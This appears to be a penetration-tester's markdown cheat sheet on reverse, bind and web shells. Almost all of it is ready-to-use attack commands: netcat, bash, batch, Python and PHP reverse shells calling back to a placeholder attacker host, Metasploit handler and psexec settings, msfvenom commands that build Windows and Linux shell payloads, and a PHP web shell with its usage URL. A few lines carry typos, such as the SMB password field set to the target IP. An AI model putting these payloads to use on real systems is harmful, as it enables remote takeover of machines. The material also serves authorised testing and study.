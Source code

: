 ```yaml
---
title: 3 - Reverse Shell
---
```


# Reverse vs Bind vs Web Shell

---

### Bind Shell

**The code is used to start a listener attached to a shell on the target.** 
Then we can connect to the port to obtain remote code execution. 
This has the advantage of not requiring any configuration on our network, but may be prevented by firewalls protecting the target.

### Reverse Shell

**The code makes the target to connects back to the attacker computer.** 
Reverse shells are a good way to bypass firewalls. The drawback is that we need to configure our network to accept the shell: we need to set up an handler.

### Web Shell

**The code allows the attacker to send shell commands to the target server via a web page hosted on this server.**

# Handlers

---

### NETCAT


 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener on port 2112

---

### METASPLOIT


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload</font> linux/x86/meterpreter/reverse_tcp**</br>
 > Handler for linux (efl) reverse shell.

# Reverse Shell

---

### Ressources

[PayloadsAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

[Pentestmonkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

---

### NETCAT


 > 
 > **<font color=red>nc -e /bin/bash</font> \[ATTACKER_IP\] \[ATTACKER_PORT\]**</br>
 > Reverse shell. 

---

### BASH


 > 
 > **<font color=red>bash -i >& /dev/tcp/</font>\[ATTACKER_IP\]<font color=red>/</font>\[ATTACKER_PORT\] <font color=red>0>&1</font>**</br>
 > Reverse Shell.

---

### BAT


 > 
 > **<font color=red>@echo off nc.exe</font> \[ATTACKER_IP\] \[ATTACKER_PORT\] <font color=red>-e cmd.exe</font>**</br>
 > Reverse Shell.

---

### PYTHON


 > 
 > **<font color=red>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("</font>\[ATTACKER_IP\]<font color=red>",</font>\[ATTACKER_PORT\]<font color=red>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'</font>**</br>
 > Reverse Shell.

---

### PHP


 > 
 > **<font color=red>\<?php</font>**</br>
 > **<font color=red>exec("/bin/bash -c 'bash -i > /dev/tcp/</font>\[ATTACKER_IP\]<font color=red>/</font>\[ATTACKER_PORT\] <font color=red>0>&1'");</font>**</br>
 > **<font color=red>?\></font>**</br>
 > Very simple reverse shell.

Fancy reverse shell:
**[Pentestmonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)**
Location on Kali: <font color=lightblue>/usr/share/webshells/php/php-reverse-shell.php</font>

---

### METASPLOIT


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/windows/smb/psexec</font>**
 > 
 > **<font color=red>set lhost</font> \[ATTACKER_IP\]**
 > **<font color=red>set rhosts</font> \[TARGET_IP\]**
 > **<font color=red>set smbdomain</font> \[TARGET_DOMAIN\]**
 > **<font color=red>set smbuser </font>\[TARGET_USER\]**
 > **<font color=red>set smbpass</font> \[TARGET_IP\]**
 > **<font color=red>set payload </font>windows/x64/meterpreter/reverse_tcp**</br>
 > Create a reverse shell from a SMB share.

---

### MSVENOM (Reverse Shell Generator)


 > 
 > **<font color=red>msfvenom -p cmd/unix/reverse_netcat LHOST=</font>\[ATTACKER_OP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\]**</br>
 > Generate a Linux reverse shell.


 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o</font> shell<font color=red>.exe</font>**</br>
 > Generate a reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o </font>shell<font color=red>.exe</font>**</br>
 > Generate a meterpreter reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f dll -o</font> shell<font color=red>.dll</font>**</br>
 > Generate a meterpreter reverse shell DLL.

# Web Shell

---

### PHP


 > 
 > **<font color=red>\<?php</font>**</br>
 > **<font color=red>system($\_GET\["</font>cmd<font color=red>"\]);</font>**</br>
 > **<font color=red>?></font>**</br>
 > Web shell. After upload, go to http://\[TARGET_IP\]/myWebShell.php?cmd=whoami
